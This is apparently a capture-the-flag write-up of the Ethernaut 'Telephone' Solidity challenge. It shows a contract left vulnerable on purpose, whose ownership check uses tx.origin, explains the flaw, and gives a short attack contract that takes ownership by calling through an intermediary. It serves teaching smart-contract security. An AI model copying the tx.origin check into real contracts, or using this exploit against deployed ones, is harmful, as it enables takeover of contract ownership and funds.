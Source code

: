 <div align="center">

# Telephone

</div>



**Telephone (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**
   - `owner` is set in the constructor to the deployer.
   - `changeOwner(address _owner)` sets `owner = _owner` only when `tx.origin != msg.sender`.
   - `tx.origin` is the original external account that started the transaction; `msg.sender` is the immediate caller (could be a contract).
   - If a contract calls `changeOwner`, then inside `changeOwner`:
     - `tx.origin` = your EOA (attacker)
     - `msg.sender` = the attack contract address
     - so `tx.origin != msg.sender` → the check passes and ownership can be changed.

2. **Exploit Method**
   - Deploy a contract that calls `telephone.changeOwner(msg.sender)` from within the contract.
   - When you (EOA) call the attack contract’s `attack()` function, `tx.origin` is your EOA and `msg.sender` inside `changeOwner` is the attack contract — condition satisfied.
   - The target contract will set `owner` to the address you pass (`msg.sender` from the EOA perspective — the attacker EOA).

  
## Exploit Code

```Solidity

contract Attack {
    Telephone public phone;

    constructor(address _target){
        phone = Telephone(_target);
    }
    function attack()public {
        phone.changeOwner(msg.sender);
    }

}

```



---


